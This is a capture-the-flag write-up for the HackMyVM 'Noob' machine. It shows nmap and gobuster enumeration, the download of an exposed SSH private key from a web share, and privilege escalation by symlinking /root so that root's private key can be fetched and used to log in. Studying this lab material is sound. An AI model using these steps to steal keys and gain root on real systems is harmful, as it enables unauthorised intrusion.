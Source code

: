 ```yaml
---
title: "Noob  Writeup HackMyVM"
date: 2024-06-18 00:00:00 +0530
categories: [Write Up,  HackMyVM] 
tags: [Privilege Escalation, SSH, rsa key, symbolic link]
---
```


![Alt Text](/img/noob/1.png)


<strong>The penetration test began with a nmap scan, which revealed that ports 22 (SSH) and 65530 were open. Further enumeration using Gobuster on port 65530 led to the discovery of the nt4share directory. SSH connection was established using a key found in nt4share. To escalate privileges, a symbolic link was created, granting access to the root account. The penetration test culminated in accessing the root account via SSH using the newly acquired key, enabling the retrieval of the flags.


<a href="https://hackmyvm.eu/machines/machine.php?vm=Noob" target="_blank" rel="noopener noreferrer">vm link</a>

#### >> Create a variable for the IP to avoid retyping the address each time
```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ip=192.168.0.124
```
<br>
## Enumeration
<br>

#### >> Scan for open ports and services using nmap
 - also try ```nmap -sCV -p22,65530 -n -Pn -vvv 192.168.0.124 -oN target```

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ sudo nmap -sC -sV -p- -T4 -A -O $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-18 06:50 IST
Nmap scan report for 192.168.0.124
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:6a:8e:22:cd:dd:75:52:a6:0a:46:06:bc:df:53:0f (RSA)
|   256 c2:48:46:33:d4:fa:c0:e7:df:de:54:71:58:89:36:e8 (ECDSA)
|_  256 5e:50:90:71:08:5a:88:62:7e:81:07:c3:9a:c1:c1:c6 (ED25519)
65530/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
MAC Address: 08:00:27:6C:C3:C4 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.98 ms 192.168.0.124

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds

```

- Port 22 & 65530 are open

![Alt Text](/img/noob/2.png)

## Gobutser port 65530

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ gobuster dir -u http://$ip:65530/ -w /wordlists/directory-list-2.3-medium.txt -x php,txt,html,css,js,zip,bak -t 200
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.124:65530/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,css,js,zip,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 19]
/http%3a%2f%2fwww     (Status: 301) [Size: 45] [--> /http:/www]
/http%3a%2f%2fwww.bak (Status: 301) [Size: 49] [--> /http:/www.bak]
/http%3a%2f%2fwww.php (Status: 301) [Size: 49] [--> /http:/www.php]
/http%3a%2f%2fwww.txt (Status: 301) [Size: 49] [--> /http:/www.txt]
/http%3a%2f%2fwww.html (Status: 301) [Size: 50] [--> /http:/www.html]
/http%3a%2f%2fwww.css (Status: 301) [Size: 49] [--> /http:/www.css]
/http%3a%2f%2fwww.js  (Status: 301) [Size: 48] [--> /http:/www.js]
/http%3a%2f%2fwww.zip (Status: 301) [Size: 49] [--> /http:/www.zip]
/http%3a%2f%2fyoutube (Status: 301) [Size: 49] [--> /http:/youtube]
/http%3a%2f%2fswik.html (Status: 301) [Size: 51] [--> /http:/swik.html]
/http%3a%2f%2fswik.css (Status: 301) [Size: 50] [--> /http:/swik.css]
/http%3a%2f%2fswik.js (Status: 301) [Size: 49] [--> /http:/swik.js]
/http%3a%2f%2fswik.zip (Status: 301) [Size: 50] [--> /http:/swik.zip]
/http%3a%2f%2fswik.bak (Status: 301) [Size: 50] [--> /http:/swik.bak]
/http%3a%2f%2fswik.php (Status: 301) [Size: 50] [--> /http:/swik.php]
/nt4share             (Status: 301) [Size: 45] [--> /nt4share/]                                <<<
Progress: 1661144 / 1661152 (100.00%)
===============================================================
Finished
===============================================================
                                                                
```
![Alt Text](/img/noob/3.png)

![Alt Text](/img/noob/4.png)

- Chek keys
- Let's try `SSH` with `id_rsa`

`wget http://$ip:65530/nt4share/.ssh/id_rsa`

`chmod 600 id_rsa`


## Establish SSH connection

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ssh -i id_rsa adela@$ip
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 17 22:18:48 2024 from 192.168.0.190
adela@noob:~$ id
uid=1000(adela) gid=1000(adela) groups=1000(adela),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
adela@noob:~$ 
```

## Privilege Escalation

#### >> Creating a symbolic link named root that points to the root directory (/root) allows for easy access to the root directory from another location in the filesystem.

```shell                                                                           
adela@noob:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
adela:x:1000:1000:adela,,,:/home/adela:/bin/bash
adela@noob:~$ ln -s /root root
adela@noob:~$ ls -al
total 28
drwxr-xr-x 3 adela adela 4096 Jun 17 21:02 .
drwxr-xr-x 3 root  root  4096 Jul 11  2021 ..
-rw-r--r-- 1 adela adela  220 Jul 11  2021 .bash_logout
-rw-r--r-- 1 adela adela 3526 Jul 11  2021 .bashrc
-rw-r--r-- 1 adela adela  807 Jul 11  2021 .profile
lrwxrwxrwx 1 adela adela    5 Jun 17 21:02 root -> /root                                       <<<
drwx------ 2 adela adela 4096 Jul 13  2021 .ssh
-rw------- 1 adela adela   50 Jul 14  2021 .Xauthority 
```
- `lrwxrwxrwx 1 adela adela    5 Jun 17 21:02 root -> /root` symbolic link created.
- Accessing the `nt4share` again. We have a new directory `root`
![Alt Text](/img/noob/5.png)

![Alt Text](/img/noob/6.png)

#### >> Let's get `id_rsa` from `root` and `SSH` it.

`wget http://$ip:65530/nt4share/root/.ssh/id_rsa`


```shell                                                                           
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ssh -i id_rsa root@$ip
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 17 21:10:45 2024 from 192.168.0.190
root@noob:~# ls
root.txt  user.txt
root@noob:~# 

```
- Now we have both the flags

<br>
<center>pwned</center>